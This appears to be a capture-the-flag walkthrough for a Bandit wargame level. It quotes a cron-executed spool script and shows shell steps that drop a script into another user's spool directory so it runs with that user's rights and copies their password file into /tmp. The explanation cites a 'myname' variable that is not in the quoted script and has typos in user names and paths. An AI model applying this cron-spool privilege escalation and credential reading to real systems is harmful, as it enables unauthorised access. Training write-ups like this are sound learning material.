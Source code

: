 ```bash
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

Let's break down what the above bash script does:

The `myname` variable is assigned the output of the command `whoami` typed by the user `bandin24`. 

```bash
bandit23@bandit:~$ whoami
bandit23
```

Then iterates through all files within the `/var/spool/bandit24/foo` directory, ignores the current (`.`) and previous (`..`) directories, and then checks who is the owner of the file.  

```bash
bandit23@bandit:/tmp$ stat --format "%U" test.txt
bandit23
```

  > [`stat` command in Linux](https://linuxize.com/post/stat-command-in-linux/).

Finally, if the owner is the user `bandint23`, it executes the script. If the scripts runs for more than 60 seconds, then it will be forcefully terminated. Finally, it deletes the script.

As a result, we have to create a script that reads `bandit24`'s password, move it to the `/var/spool/bandit24/foo/` directory, and wait for it to execute. According to the output of `/etc/cron.d/cronjob_bandit24`, it executes every minute, so it should be executed within maximum of 1 minute.

```bash
# create a new director within /tmp
bandit23@bandit:~$ mkdir /tmp/lvl_23/
# move to the newly-created dir
bandit23@bandit:~$ cd /tmp/lvl_23
# create the required script
bandit23@bandit:/tmp/lvl_23$ nano bandit23.sh
# display the script's content
bandit23@bandit:/tmp/lvl_23$ cat bandit23.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/lvl_23/lvl_24_pass
# create the file that the password will be written to
bandit23@bandit:/tmp/lvl_23$ touch lvl_24_pass
# give appropriate permissions to the script, directory, and password file
bandit23@bandit:/tmp/lvl_23$ chmod +rx bandit23.sh
bandit23@bandit:/tmp/lvl_23$ chmod 777 /tmp/lvl_23
bandit23@bandit:/tmp/lvl_23$ chmod 777 lvl_24_pass
# check files' permissions
bandit23@bandit:/tmp/lvl_23$ ls -la
total 408
drwxrwxrwx    2 bandit23 bandit23   4096 Jan  4 17:18 .
drwxrwx-wt 3062 root     root     405504 Jan  4 17:19 ..
-rwxrwxr-x    1 bandit23 bandit23     67 Jan  4 17:17 bandit23.sh
-rwxrwxrwx    1 bandit23 bandit23      0 Jan  4 17:18 lvl_24_pass
# copy the script to the appropriate directory
bandit23@bandit:/tmp/bandit23_dir$ cp bandit23.sh /var/spool/bandit24/foo/
# wait for a minute and check if the file has changed
bandit23@bandit:/tmp/lvl_23$ cat lvl_24_pass
```